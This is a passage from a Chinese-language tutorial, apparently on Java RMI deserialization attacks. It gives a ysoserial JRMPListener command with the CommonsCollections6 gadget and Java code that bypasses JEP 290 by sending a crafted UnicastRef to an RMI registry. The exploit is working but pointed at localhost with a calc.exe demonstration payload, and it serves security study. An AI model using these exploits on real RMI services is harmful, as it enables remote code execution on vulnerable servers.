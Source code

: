        // 通过注册中心，将 RMI 服务注册到 1099 端口
        // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
        // Registry registry = LocateRegistry.createRegistry(1099);
        // 注册，并将服务命名为 myRemote
        registry.rebind("myRemote", myRemote);
    }
    ```

2. JRMPListener 发起监听（所使用 JDK 为 121，因此不要用 CC1）：
    ```bash
    java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener [ip] 7777 CommonsCollections6 calc.exe
    ```

3. 模仿 JRMPClient 发起攻击：
    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
        // 调用方法
        myRemote.saySth("Hello");
    
        // 绕过 JEP 290
        attackBypassJEP290(registry);
    }
    /**
      * 绕过 JEP290，通过 ysoserial 的 JRMPListener 来攻击服务端
      * 这里是模仿 registry 的 lookup 来发起攻击，也就是 Client 攻击 Registry
      */
    private static void attackBypassJEP290(Registry registry) throws Exception {
        // 7777 为 JRMPListener 的开放端口
        LiveRef liveRef = new LiveRef(new ObjID(new Random().nextInt()), new TCPEndpoint("127.0.0.1", 7777), false);
        // 创建 UnicastRef
        UnicastRef payloadObj = new UnicastRef(liveRef);
        try {
            // 拿到 RegistryImpl_Stub 的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求
            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("java.lang.String list()[]"),
                                                     new Operation("java.rmi.Remote lookup(java.lang.String)"),
                                                     new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("void unbind(java.lang.String)")};
            StreamRemoteCall call = (StreamRemoteCall) unicastRef.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
            ObjectOutput out = call.getOutputStream();
            // 序列化链条
            out.writeObject(payloadObj);
            unicastRef.invoke(call);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    ```
